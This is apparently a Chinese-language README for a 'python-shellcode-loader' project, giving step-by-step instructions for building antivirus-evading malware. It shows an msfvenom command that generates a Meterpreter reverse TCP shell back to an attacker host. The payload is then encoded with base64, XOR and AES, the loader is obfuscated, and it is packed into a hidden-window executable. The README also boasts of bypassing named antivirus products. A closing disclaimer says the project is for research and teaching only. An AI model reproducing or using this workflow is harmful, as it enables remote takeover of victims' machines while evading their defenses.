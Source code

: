 # python-shellcode-loader

<a name="ptTMq"></a>
## 简单介绍
免杀方式 msfvenom生成raw格式的shellcode-->base64-->XOR-->AES<br />将python代码缩小并混淆最后生成exe<br />目前过DF、360和火绒  virustotal：7/66过卡巴斯基、迈克菲等
<a name="H2jnt"></a>
## 获取项目
git clone [https://github.com/HZzz2/python-shellcode-loader.git](https://github.com/HZzz2/python-shellcode-loader.git)<br />cd python-shellcode-loader
<a name="CuRMC"></a>
## 生成shellcode
#生成shellcode<br />`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=9999 -f raw > rev.raw`
<a name="rNUTI"></a>
## base64编码shellcode并替换jiami.py中的值
#base64<br />`base64 -w 0 -i rev.raw > rev.bs64`<br />`cat rev.bs64`<br />复制base64的值替换jiami.py中payload       也就是 第二十五行 sc='payload' 
<a name="uXwYU"></a>
## 加密base64并替换main.py中的值
#加密base64后的shellcode<br />`python3 jiami.py`<br />#会生成一个aes-xor.txt的文件，复制文件里的值(经过XOR和AES加密后)<br />复制的值替换main.py中的payload   也就是第四十一行 jiami_sc='payload'
<a name="RhzZp"></a>
## 缩小和混淆py代码
<a name="K5dP3"></a>
### 缩小python代码
`pyminify main.py --output main-mini.py`
<a name="PTqkf"></a>
### 混淆main-mini.py中的python代码
[https://pyob.oxyry.com/](https://pyob.oxyry.com/)  在线混淆<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654524591386-7385c972-05e4-4761-bac3-311ae4ab2b0c.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=531&id=u32a8913b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=664&originWidth=1919&originalType=binary&ratio=1&rotation=0&showTitle=false&size=192572&status=done&style=none&taskId=uf5d03036-4fc8-4141-aec3-77143fc268e&title=&width=1535.2)<br />将混淆后的代码保存到一个文件中，比如文件名为:main-mini-ob.py
<a name="s0SXj"></a>
## 打包成可执行文件exe
#打包成exe<br />`pyinstaller.exe -Fw -i .\setting.ico --key=leslie .\main-mini-ob.py`<br />-F 打包为单文件 -w 不显示窗口   -i ico图标文件  --key  加密字节码的密钥<br />等待打包完成。。。。<br />打包好后的可执行程序在dist目录中
<a name="dr6Hv"></a>
## 流程图
![](https://cdn.nlark.com/yuque/0/2022/jpeg/26697321/1654524239719-d5ff881a-602c-4508-81b8-8e14c0d41595.jpeg)
<a name="SyXYB"></a>
## 检测图


###DF
![image](https://user-images.githubusercontent.com/22775890/172209887-134b5107-353b-45e2-a3b6-9e65b5189b8c.png)


###火狐
![image](https://user-images.githubusercontent.com/22775890/172209706-1634bd75-7fe4-4844-bf95-bb8e3dea0540.png)


###360杀毒
![image](https://user-images.githubusercontent.com/22775890/172209912-86663b43-9afe-40ec-ba1a-dd6951f04ac3.png)


###360安全卫士云查杀
![image](https://user-images.githubusercontent.com/22775890/172209928-b96f0201-2b4d-4efb-bf4c-33df8ed3ce03.png)


###virustotal
![image](https://user-images.githubusercontent.com/22775890/172209945-6aa0f8d1-dbe2-443d-9bf1-b127fe271aa9.png)


https://user-images.githubusercontent.com/22775890/172209225-080c2549-45cc-4135-a907-38738ab42df5.mp4



## 免责声明
仅供安全研究与教学之用，如果使用者将其做其他用途，由使用者承担全部法律及连带责任，本人不承担任何法律及连带责任。











